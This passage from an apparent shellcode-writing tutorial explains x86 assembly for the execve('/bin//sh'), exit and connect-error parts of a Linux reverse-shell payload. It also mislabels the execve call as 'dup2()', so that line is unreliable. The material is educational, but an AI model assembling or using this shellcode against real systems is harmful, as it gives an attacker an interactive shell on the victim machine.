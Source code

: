 ```
	jnz _dup_loop
```

### execve()
The `dup2()` function (syscall 11) executes a program. The prototype for this function is defined as follows:
```
int execve(const char *pathname, char *const argv[],
           char *const envp[]);
```
We will use it in order to start `/bin//sh` (additional '/' is not affecting the command, it has just been added for padding purposes), therefore we need to push it (along with NULL terminator) on the stack. Argument _envp_ (edx) will be a pointer to a null dword and _argv_ (ecx) will be a pointer to the address of _pathname_ 

```
;// Invoking EXECVE
;execve("/bin/sh", NULL, NULL);
xor eax, eax		; eax = 0

push eax		; push eax (0x0 as null terminator)
push 0x68732f2f
push 0x6e69622f		; Push '/bin//sh' (reverse order) onto the stack
mov ebx, esp		; ebx = pointer to TOS (string '/bin//sh')

push eax		; push 0x0
mov edx, esp		; edx = pointer to TOS (null)

push ebx		; push ebx (pointer to string '/bin//sh')
mov ecx, esp		; ecx = pointer to TOS

mov al, 0x0b		; #define __NR_execve 11
int 0x80
```


### exit()
The exit function is very simple and known, its code (which needs to be set into eax) is 1. This is the code used to replicate it in our Assembly code:
```
;// exit
;return 0;
xor eax, eax		; eax = 0
xor ebx, ebx		; ebx = 0
inc eax			; eax = 1 (exit syscall)
int 0x80
```

#### _exit_error label
If the connect() function did not succeed, the program will jump to this point and perform an exit using error code provided by the connect() function and stored in eax:
```
_exit_error:
	;return ret;
	mov ebx, eax		; copying error into ebx
	xor eax, eax		; eax = 0
	inc eax				; eax = 1 (exit syscall)
	int 0x80
```
